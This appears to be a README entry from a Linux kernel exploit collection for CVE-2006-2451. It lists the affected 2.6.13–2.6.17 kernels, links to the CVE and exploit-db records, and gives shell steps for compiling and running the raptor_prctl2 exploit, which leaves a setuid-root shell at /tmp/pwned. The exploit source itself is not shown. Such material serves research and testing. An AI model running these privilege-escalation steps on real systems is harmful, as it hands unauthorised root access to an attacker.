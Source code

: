 # CVE-2006-2451

CVE-2006-2451

Vulnerability reference:
 * [CVE-2006-2451](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2006-2451)  
 * [exp-db](http://www.exploit-db.com/exploits/2031/)  

## Kernels
```
2.6.13, 2.6.14, 2.6.15, 2.6.16, 2.6.17
```   

## Usage
```
$ gcc raptor_prctl2.c -o raptor_prctl2 -static -Wall
[exploit must be statically linked]
$ ./raptor_prctl2
[please wait until logrotate is run]
$ ls -l /tmp/pwned
-rwsr-xr-x  1 root users 7221 2006-07-18 13:32 /tmp/pwned
$ /tmp/pwned
```  



